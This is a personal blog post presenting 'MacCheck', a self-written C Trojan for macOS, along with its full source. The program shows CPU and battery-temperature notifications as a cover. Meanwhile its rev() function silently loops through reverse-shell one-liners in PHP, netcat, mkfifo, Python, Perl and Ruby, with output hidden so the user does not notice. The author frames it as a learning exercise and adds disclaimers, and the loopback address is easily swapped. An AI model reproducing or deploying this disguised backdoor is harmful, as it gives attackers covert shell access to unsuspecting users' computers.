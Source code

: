 ```yaml
---
title: "A reverse shell disguised as a hardware monitor (C)"
date: 2020-05-18
tags: [programming, c]
header:
  image: "/images/banner2.png"
  excerpt: "Programming, C"
---
```


This program was inspired by the saying I sometimes hear that "Macs don't get viruses". I wanted to find out what it's like to write malware, which factors you have to consider, what way of thinking is required. I think that doing so and temporarily roleplaying as an attacker puts you in a better position to defend against threats.

I also wanted to learn a programming language that isn't also a shell language. I did some research and ended up picking C. I had a lot of reasons for this, but what stood out to me were 2 things:

* the amount of malware and exploits written in C
* the amount of IoT (Internet of Things) written in C

To me, this was killing two giant birds with one stone. That stone ended up being a lot bigger and heavier than I anticipated, but still. My goal was to write a program that resembles a Trojan - in this case, one that monitors a Mac's battery temperature and CPU usage while attempting to grant backdoor access to another machine.

Note: I won't (and you shouldn't) use this program as an actual Trojan or as malware in general (such as using this program to gain access to a machine whos owner hasn't explicitly given permission to do so). I've written this program (and this post) to learn and to talk about what that learning has been like for me, *nothing else*. You shouldn't let anyone run this program if that person doesn't fully understand what it does and hasn't given explicit permission for access through a reverse shell.

## The main() function

I start off by making sure the program is executed the right way: being run in the background. If it's not, it prints usage instructions. I check this in the same way I did in my [network monitor written in Bash](https://holstrater.github.io/dlp.sh/), which may also be suboptimal in C. Since checking if the current program is being run in the background seems like a valuable thing to master in general (and in the future), I'll look for improvements later on. I then print a brief introduction to the user, noting that the Terminal application should not be completely closed to keep the program from exiting, although hiding it is fine.

The program then calls three different functions and waits for 35 seconds. After that, the three functions are called again, waiting for 35 seconds again, infinitely repeating this in a loop.

## The check_cpu() function

The first function that is called and executed, monitors and reports about current CPU usage of the user's machine. It does this by issuing a command that checks kernel stats, in this case `vm.loadavg`. It does some filtering on these stats, making sure to only store the relevant part in the `.txt` file.

After that, some variables are initialized, making sure that the contents of the `.txt` file can be stored in an actual variable. After converting the variable content to the `int` type, the content is evaluated in a few `if` statements. This way, if the current CPU usage (stored as the variable content) matches certain criteria, a slick-looking temporary alert pops up informing the user of what's going on. Since high CPU usage is generally fine (especially on modern CPUs), I decided to keep the criteria rather high. After all, setting them too low could ruin the user experience when the alerts are interpreted as false positives. This could lead to the user shutting down the program entirely. Since there's a considerable `sleep` being executed in the main loop, I didn't want the `.txt` to just sit there and do nothing for such a long time so I delete it each time `check_cpu()` ends.

## The check_bat() function

The second function does the same thing as the previous function, but instead of CPU usage it monitors and reports about current battery temperature of the user's machine. Instead of `sysctl` it uses `ioreg` which is able to query the needed information. I did some research about the way the specific type of battery in Macs reacts to heat, which I then based my criteria in the `if` statements on. Note: the numbers in these `if` statements are Celsius multiplied by 100 because that's how they're measured by `ioreg`, but this multiplication is obviously accounted for in the actual messages the user gets.

## The rev() function

The third function is the part where the program attempts to establish a connection with a remote computer, giving that computer shell access. It does this by attempting method A first and if method A fails, it waits for 5 seconds and attempts method B. It turned out that a lower `sleep` duration disrupts the methods that follow each failed attempt, so I ended up with 5 seconds each. The methods consist of generally well-known 'oneliners', each relying on a different language or command. These open up a network socket connecting to the IP that was provided on the port that was provided.

To simulate how a trojan *would* work, I made some minor changes to these commands so that, if they fail (or even succeed) to set up a reverse shell, it doesn't show to the user. From a users point of view, apart from CPU usage and battery temperature being monitored nothing is happening.

## Final words

I learned a lot about the C language creating this program, but not completely the way I intended. C, for me, isn't the kind of language that you can pick up easily just by *doing*. Since it's such a low-level language with in my opinion not very intuitive syntax, it benefits a lot from creating a steady foundation with several books. Otherwise, you might end up with crucial gaps in your knowledge that will pretty much follow you forever. The proof of this in this particular program is the combination of C and shell commands rather than almost being pure C.

Nevertheless, I did end up with a program that I think is very interesting, particularly in its combination of good (monitoring hardware stats) and bad (setting up backdoor access). Also: I've been working on my socket programming and multithreading skills/knowledge while writing `maccheck.c`, so keep an eye out for a C program related to that in the future. In the meantime though, I have some reading to do. Still, if you have any suggestions, questions or comments in general, please let me know. They're more than welcome.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void check_cpu(void);
void check_bat(void);
void rev(void);

/*
NOTE: I won't (and you shouldn't) use this program as an actual Trojan or as malware in general (such as using this program to gain access to a machine whos owner hasn't explicitly given permission to do so). I've written this program (and the blog post that explains it) to learn and to talk about what that learning has been like for me, *nothing else*. You shouldn't let anyone run this program if that person doesn't fully understand what it does and hasn't given explicit permission for access through a reverse shell.
*/

int main(int argc, char *argv[]) {

	if (argc != 2 || strcmp(argv[1], "&")) {
		printf("\nMacCheck was not executed properly. \nPlease execute by entering the following: ./maccheck \"&\"&\n\n");
		exit(0);
	}

	printf("\nWelcome to MacCheck, a lightweight tool for MacOS that monitors CPU usage and battery temperature.\n\n");
	printf("Once temperature and usage exceeds a certain level, a temporary and non-intrusive notification will appear to inform you.\n\n");
  printf("Monitoring will remain active in the background but relies on the Terminal app. Minimizing it or executing other commands is OK, but please do not close the Terminal app.\n\n");

	while (1) {
		check_cpu();
		check_bat();
		rev();
		sleep(35);
	}

	return 0;
}

void check_cpu(void) {

	system("sysctl -n vm.loadavg | awk -F' ' '{print $2 > \"maccheck_tmp1.txt\"}'");

	char cpu_s[50];
	int cpu_i;
	FILE *fp;
	fp = fopen("maccheck_tmp1.txt", "r+");

	fgets(cpu_s, sizeof(cpu_s), fp);

	cpu_i = atoi(cpu_s);

	if (cpu_i >= 90 && cpu_i <= 95) {
	system("osascript -e 'display notification \"CPU usage is between 90% and 95%!\" with title \"MacCheck\"'");
	}
	else if (cpu_i >= 95 && cpu_i <= 100) {
	system("osascript -e 'display notification \"CPU usage is between 95% and 100%!\" with title \"MacCheck\"'");
	}
	else if (cpu_i > 100) {
	system("osascript -e 'display notification \"WARNING: CPU usage is over 100%!\" with title \"MacCheck\"'");
	}

	fclose(fp);
	system("rm maccheck_tmp1.txt");

}

void check_bat(void) {

	system("ioreg -brc AppleSmartBattery | grep Temperature | awk -F' ' '{print $3 > \"maccheck_tmp2.txt\"}'");

	char bat_s[50];
	int bat_i;
	FILE *fp2;
	fp2 = fopen("maccheck_tmp2.txt", "r+");

	fgets(bat_s, sizeof(bat_s), fp2);

	bat_i = atoi(bat_s);

	if (bat_i >= 4000 && bat_i <= 4500) {
	system("osascript -e 'display notification \"Battery temperature is between 40°C and 45°C!\" with title \"MacCheck\"'");
	}
	else if (bat_i >= 4500 && bat_i <= 5000) {
	system("osascript -e 'display notification \"Battery temperature is between 45°C and 50°C!\" with title \"MacCheck\"'");
	}
	else if (bat_i > 5000) {
	system("osascript -e 'display notification \"WARNING: Battery temperature is over 50°C!\" with title \"MacCheck\"'");
	}

	fclose(fp2);
	system("rm maccheck_tmp2.txt");

}

void rev(void) {

	if (system("php -r '$sock=fsockopen(\"127.0.0.1\",1717);exec(\"/bin/sh -i <&3 >&3 2>&3\");' > /dev/null 2>&1 &") != 1) {
		sleep(5);
		if (system("nc -e /bin/sh 127.0.0.1 1717 > /dev/null 2>&1 &") != 1) {
			sleep(5);
      	if (system("rm /tmp/f > /dev/null 2>&1;mkfifo /tmp/f > /dev/null 2>&1;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1717 >/tmp/f > /dev/null 2>&1 &") != 1) {
        	sleep(5);
	        	if (system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",1717));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\' > /dev/null 2>&1 &") != 1) {
	          	sleep(5);
	            	if (system("perl -e 'use Socket;$i=\"127.0.0.1\";$p=1717;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};' > /dev/null 2>&1 &") != 1) {
	              	sleep(5);
									system("ruby -rsocket -e'f=TCPSocket.open(\"127.0.0.1\",1717).to_i;exec sprintf(\"/bin/sh -i <&%d >&%d 2>&%d\",f,f,f)' > /dev/null 2>&1 &");
								}
						}
				}
		}
	}
}
```
